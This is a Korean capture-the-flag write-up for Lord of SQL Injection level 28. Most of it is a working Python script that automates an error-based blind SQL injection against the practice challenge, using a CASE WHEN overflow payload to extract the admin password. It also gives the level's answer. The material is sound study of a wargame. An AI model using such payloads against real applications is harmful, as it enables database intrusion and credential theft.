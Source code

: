 ```yaml
---
title: LOS - 28번 frankenstein
category: Lord of SQL Injection
---
```


# [28] frankenstein

## 문제

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FTO6uD%2FbtroQcD0xeH%2FVEz0pKlYKuQykNPh1pftgK%2Fimg.png">

## 풀이

**LoS 28번 Python 자동화 코드**이다.
```python
import requests

url = "https://los.rubiya.kr/chall/frankenstein_b5bab23e64777e1756174ad33f14b5db.php"
cookie = {"PHPSESSID":"2evml88c628kabc2j1vfk63ks9"}

print("🖤 Start SQLi...")

ans = ""
end = False

for i in range(1, 100):
    if(end==True):
        print(f">> There's No Letter {i}")
        break
    end = True
    print(f"🖤 Checking letter {i}...")
    for asc in range(48, 127):
        search = ans+chr(asc)
        payload = f"?pw=' || CASE WHEN id='admin' and pw like '{search}%25' THEN 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF ELSE 0 END %23"
        res = requests.get(url+payload, cookies=cookie)
        if("login_chk" in res.text):
            continue
        elif("error" in res.text):
            print(f">> Letter {i} → {chr(asc)}")
            ans+=chr(asc)
            end = False
            break

print(f"🖤 Answer : {ans}")
```

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2Fo9RVC%2FbtroQHcGsn6%2FR3hxUf6mnpVomVdHZmykK1%2Fimg.png">

그런데 여기서 끝이 아니었다.

자동화 공격 결과 분명 답은 숫자와 알파벳 **대문자**의 조합으로 나왔건만...

아무리 넣어봐도 안 풀렸다.

도저히 이유를 모르겠어서 다른 블로그 글을 찾아봤더니 답은 `0dc4efbb` 였다.

왜 아스키로 검색했는데 대소문자가 반대로 나오는지...

## 결과

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FFN907%2FbtroSuwFci1%2FkHtw4XM9KJHFkbEZAOHw6K%2Fimg.png">